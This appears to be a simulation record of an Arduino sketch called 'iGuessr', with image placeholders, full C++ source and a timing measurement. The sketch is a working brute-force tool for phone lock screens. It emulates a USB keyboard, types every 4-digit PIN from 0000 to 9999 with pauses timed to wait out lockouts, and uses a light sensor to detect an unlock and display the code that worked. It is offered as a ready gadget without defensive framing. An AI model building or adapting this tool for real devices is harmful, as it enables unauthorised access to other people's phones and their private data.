
A sketch run on a simulated Arduino Uno, built with avr-gcc and run on an emulated ATmega328P. Shown: 240×320 colour display. Inputs (shaded band) come from the test bench; at power-on: A5 (LIGHT_SENSOR) = 512. What the sketch prints to the serial monitor is not drawn.

Above: at 1.6 s.
At 14.5 s:

At 27.4 s:

At 53.2 s:

At 85.4 s:

At 124.0 s:


The sketch:

iGuessr_sketch.ino
```cpp
#include <Adafruit_GFX.h>    // Core graphics library
#include <Adafruit_TFTLCD.h> // Hardware-specific library

#define LIGHT_SENSOR A5     // Analog pin for the light sensor
#define LIGHT_THRESHOLD 70 // Change threshold

#define LCD_CS A3 // Chip Select goes to Analog 3
#define LCD_CD A2 // Command/Data goes to Analog 2
#define LCD_WR A1 // LCD Write goes to Analog 1
#define LCD_RD A0 // LCD Read goes to Analog 0

#define LCD_RESET A4 // Can alternately just connect to Arduino's reset pin

// USB Keyboard scancodes
#define KEY_1 0x1e  //Number: 1
#define KEY_2 0x1f  //Number: 2
#define KEY_3 0x20  //Number: 3
#define KEY_4 0x21  //Number: 4
#define KEY_5 0x22  //Number: 5
#define KEY_6 0x23  //Number: 6
#define KEY_7 0x24  //Number: 7
#define KEY_8 0x25  //Number: 8
#define KEY_9 0x26  //Number: 9
#define KEY_0 0x27  //Number: 0

// Turning funky hex into a readable words
#define BLACK   0x0000
#define WHITE   0xFFFF

uint8_t buf[8] = { 0 }; // Keyboard report buffer
Adafruit_TFTLCD tft(LCD_CS, LCD_CD, LCD_WR, LCD_RD, LCD_RESET);

int lastLightValue = 0;

void setup() { // Setting up the TFT and Keyboard
  tft.reset();
  uint16_t identifier = tft.readID();
  tft.begin(identifier);
  tft.fillScreen(BLACK);
  tft.setCursor(0, 0);
  tft.setTextColor(WHITE);  tft.setTextSize(1);
  Serial.begin(9600);
  randomSeed(analogRead(0));
  delay(1000);
  int lightValue = analogRead(LIGHT_SENSOR); // Read light sensor value
  lastLightValue = lightValue;
}

void loop() {

  for (int i = 0; i <= 9999; i++) {
    // Extract individual digits
    int d[4];
    d[0] = i / 1000 % 10; // thousands
    d[1] = i / 100 % 10;  // hundreds
    d[2] = i / 10 % 10;   // tens
    d[3] = i % 10;        // ones

    // Send each digit
    for (int j = 0; j < 4; j++) {
      sendKeyPress(getKeyHexValue(d[j]));
      delay(100);
    }
    delay(6000); // Delay before sending next code
  }
}

void sendKeyPress(uint8_t key) {
  static String Lcode = "0000";
  static int digitCount = 0;
  static String codeString = "";
  static int linesPrinted = 0;

  buf[2] = key; // Set the key to be sent
  Serial.write(buf, 8); // Send keypress

  // Convert the key value to the corresponding digit character
  char digitChar;
  switch (key) {
    case KEY_0: digitChar = '0'; break;
    case KEY_1: digitChar = '1'; break;
    case KEY_2: digitChar = '2'; break;
    case KEY_3: digitChar = '3'; break;
    case KEY_4: digitChar = '4'; break;
    case KEY_5: digitChar = '5'; break;
    case KEY_6: digitChar = '6'; break;
    case KEY_7: digitChar = '7'; break;
    case KEY_8: digitChar = '8'; break;
    case KEY_9: digitChar = '9'; break;
    default: digitChar = '?'; break; // Unknown key
  }

  // Add the digit character to the code string
  codeString += digitChar;
  digitCount++;

  int lightValue = analogRead(LIGHT_SENSOR); // Read light sensor value

  if (abs(lightValue - lastLightValue) > LIGHT_THRESHOLD) {
    // Stop and display message
    tft.fillScreen(BLACK);
    tft.setCursor(0, 0);
    tft.setTextColor(WHITE);
    tft.setTextSize(1);
    tft.setTextSize(2);
    tft.println("     iGuessr v1");
    tft.setTextSize(1);
    tft.println();
    tft.println("YO! The light sensor detected something!");
    tft.println("Seems like the phone unlocked!");
    tft.println();
    tft.print("Last entered code was: ");
    tft.println(Lcode);
    tft.println();
    tft.println("If the code didn't work try going down a few digits.");
    tft.println();
    tft.println("Good luck!");
    buf[0] = 0;
    buf[2] = 0;
    Serial.write(buf, 8);
    while(1); // Infinite loop to halt execution
  }

  lastLightValue = lightValue; // Update last light value

  // When four digits have been added, print them on TFT and reset
  if (digitCount == 4) {
    // Clear LCD and reset cursor after 29 lines
    if (linesPrinted == 39) {
      tft.fillScreen(BLACK);
      tft.setCursor(0, 0); // Reset cursor position
      linesPrinted = 0; // Reset lines printed counter
    }
    tft.setTextColor(WHITE);
    tft.setTextSize(1);
    tft.print("Testing Code: ");
    tft.println(codeString); // Print the code string
    Lcode = codeString;

    codeString = ""; // Clear the code string
    digitCount = 0;
    linesPrinted++; // Increment lines printed counter
  }

  releaseKey(); // Release the key

}


void releaseKey() {
  buf[0] = 0;
  buf[2] = 0;
  Serial.write(buf, 8); // Release key
  delay(10); // Delay to ensure the key is released
}

uint8_t getKeyHexValue(int digit) {
  switch (digit) {
    case 0: return KEY_0;
    case 1: return KEY_1;
    case 2: return KEY_2;
    case 3: return KEY_3;
    case 4: return KEY_4;
    case 5: return KEY_5;
    case 6: return KEY_6;
    case 7: return KEY_7;
    case 8: return KEY_8;
    case 9: return KEY_9;
    default: return 0; // Invalid digit
  }
}
```

Measured:
- what the display in image 0 shows lasts 6.4 s, from 1.6 s to 8.0 s
